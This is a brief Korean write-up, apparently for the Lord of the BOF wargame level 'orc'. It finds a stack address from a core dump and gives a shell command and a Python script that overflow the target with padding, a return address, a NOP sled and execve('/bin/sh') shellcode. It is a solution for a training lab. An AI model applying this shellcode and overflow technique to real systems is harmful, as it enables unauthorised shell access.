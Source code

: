 

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/04.orc/image-20180828143818177.png" width="800px">

정확한 스택 주소를 얻기 위해 core를 떨궈준다.

"S"가 들어간 위치가 쉘코드 24byte를 넣을 자리이다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/04.orc/image-20180828143927598.png" width="800px">

NOP 주소 중 적당한 0xbffffa60 주소를 RET에 넣으면 될 것 같다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/04.orc/image-20180828144129370.png" width="800px">



```
./orc `python -c 'print "A"*44+"\x60\xfa\xff\xbf"+"\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

-----

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/goblin/orc"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
shellcode_addr = 0xbffffa60 

payload = "\x90"*44
payload = append(p32(shellcode_addr))
payload = append("\x90"*50)
payload = append(shellcode)

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----

